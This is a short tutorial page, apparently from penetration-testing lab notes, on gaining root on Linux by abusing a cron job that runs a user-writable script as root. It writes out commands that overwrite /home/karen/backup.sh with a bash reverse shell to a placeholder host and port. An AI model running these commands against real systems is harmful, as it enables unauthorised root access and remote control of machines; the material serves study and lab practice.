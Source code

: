 # Linux Privilege Escalation with Cron Jobs
[< Back to Menu](README.md)
## Cron Jobs executed by root
- The `bash` script is owned by users
- The `Jobs` of the file is executed with root permission on `Cron Jobs`
- Any privileged command can be executed such as `root reverse shell`
- Job with `* * * * *` schedule will be executed again if the scipt file `is modified.` and uset permission to be `executed`
- To see cron jobs - `cat /etc/crontab

<center><img src="img/cronjob.png" width="900"></center>

- Assume `/home/karen/backup.sh` is owned by user with permission
```bash
-rwxr-xr-x 1 karen karen 66 May 13 08:46 /home/karen/backup.sh
```
- `echo #!/bin/bash > /home/karen/backup.sh` - Replace everything with bash indicator
- `echo "bash -i >& /dev/tcp/<target ip>/<target port> 0>&1 >> /home/karen/backup.sh` - Append reverse shell
- Run `chmod +x /home/karen/backup.sh` to ensure that it will be executed
- Then, `root reverse shell` will be poped up